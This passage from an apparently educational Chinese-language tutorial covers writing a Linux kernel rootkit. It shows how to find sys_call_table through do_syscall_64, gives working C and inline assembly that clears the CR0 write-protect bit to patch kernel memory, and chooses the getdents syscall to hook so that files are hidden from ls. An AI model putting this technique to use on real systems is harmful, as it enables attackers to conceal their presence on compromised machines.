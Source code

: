 4. 這樣就找到 `do_syscall_64` 了
5. 進到 `do_syscall_64` 後，一樣畫葫蘆，再找下面這個 pattern

```assembly
mov rax, QWORD PTR [rdi*8-?]
```

6. 最後，這個問號的值就會是 `sys_call_table` 的位址

### 讓 `sys_call_table` 可以寫入

* [cr0 register](https://en.wikipedia.org/wiki/Control_register#CR0) 的其中一個 bit 是代表 read-only 區段可不可寫，改成 0 就通通可寫啦
* `write_cr0` 這個 function 在 kernel 5.x.x 版加了檢查，不過我們直接寫 assembly 就沒問題啦

```c
void writable_unlock (void) {
    unsigned long val = read_cr0() & (~X86_CR0_WP);
    asm volatile("mov %0,%%cr0": "+r" (val));
}

void writable_lock (void) {
    unsigned long val = read_cr0() | X86_CR0_WP;
    asm volatile("mov %0,%%cr0": "+r" (val));
}
```

### 要 hook 哪個 syscall

* `ps` 做的事情就是去讀 `/proc` 底下所有檔案，基本上是 `ls` 的強化版，那我們這次就先做 `ls` 隱藏檔案
* 一樣用 `strace ls` 去看他呼叫了哪些 `syscall`

```c
getdents(3, /* 16 entries */, 32768)    = 512
getdents(3, /* 0 entries */, 32768)     = 0
close(3)
fstat(1, {st_mode=S_IFCHR|0620, st_rdev=makedev(136, 1), ...}) = 0
write(1, "a\thook.c\t initramfs\t    linux-5."..., 75) = 75
write(1, "attach\thook.so  initramfs.cpio.g"..., 90) = 90
```

`getdents` 看起來是關鍵的 syscall，查看一下 man page

```man
NAME
       getdents, getdents64 - get directory entries

SYNOPSIS
       int getdents(unsigned int fd, struct linux_dirent *dirp,
                    unsigned int count);
       int getdents64(unsigned int fd, struct linux_dirent64 *dirp,
                    unsigned int count);

       Note: There are no glibc wrappers for these system calls; see NOTES.
```
